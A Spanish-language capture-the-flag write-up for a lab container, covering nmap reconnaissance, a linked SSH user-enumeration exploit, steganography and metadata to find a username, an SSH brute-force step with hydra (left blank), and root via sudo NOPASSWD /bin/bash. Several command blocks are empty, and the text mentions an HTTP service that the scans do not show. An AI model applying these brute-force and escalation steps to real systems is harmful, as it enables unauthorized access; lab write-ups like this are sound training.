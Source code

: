 #tag

![](../../../Images/Pasted%20image%2020241008071626.png)
# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio SSH i un servicio HTTP funcionando.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 12:47 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000013s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 12:47 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.93 seconds
```

## SSH (22 TCP Port)


https://github.com/Sait-Nuri/CVE-2018-15473

# Usuario Borazuwarah

Hacemos un stego con `steghide` y obtenemos algo de información no importante.

```

```

Luego examinamos los metadatos de la imagen y conseguimos dar con un nombre de usuario.

```

```

Ahora, con el nombre de usuario podemos hacer fuerza bruta contra el servicio SSH con `hydra`.

```
> hydra 
```

Conseguimos acceder al sistema mediante SSH.

# Foothold

Una vez dentro investigamos los comandos que podemos ejecutar con permisos `sudo`.

```
borazuwarah@7dd5484e294a:~$ sudo -l
Matching Defaults entries for borazuwarah on 7dd5484e294a:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on 7dd5484e294a:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```

Nos encontramos que podemos ejecutar el binario`/bin/bash` con permisos ``sudo`` y sin contraseña.

```
borazuwarah@7dd5484e294a:~$ sudo /bin/bash
root@7dd5484e294a:/home/borazuwarah#
```